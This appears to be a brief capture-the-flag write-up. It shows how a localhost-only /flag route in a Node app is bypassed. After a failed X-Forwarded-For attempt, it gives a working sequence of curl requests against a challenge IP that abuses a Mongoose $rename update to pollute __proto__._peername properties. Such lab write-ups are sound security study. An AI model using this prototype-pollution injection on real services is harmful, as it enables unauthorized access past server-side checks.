

- From the source code, it seems obvious that we need to do IP spoofing because it only lets us in the `/flag` if our ip is set to 
any of `remoteAddress === '127.0.0.1' || remoteAddress === '::1' || remoteAddress === '::ffff:127.0.0.1'`, so I tried using BurpSuite to inject a X-Forwarded-For header in but doesn't work (Because `req.connection.remoteAddress` is read from the TCP socket, not a header). Upon more researching I found that this problem is testing the "Mongoose" vuln, and instead of spoofing IP, we trick the server taking the wrong remoteAddress. The attack goes like this:
    - First: `curl http://154.57.164.77:32459/create -H 'Content-Type: application/json'                                        
  -d '{"title":"127.0.0.1","content":"x"}'`, then copy the ID it sends bck
    - Second: `curl http://154.57.164.77:32459/update -H 'Content-Type: application/json'   -d '{"noteId":"6a33f06ae1fa12a70cad0db1","$rename":{"title":"__proto__._peername.address", "content":"__proto__._peername.family"}}'`
    - Then: `curl http://154.57.164.77:32459/get/6a33f06ae1fa12a70cad0db1`
    - Last we can just `curl http://154.57.164.77:32459/flag
`
- 
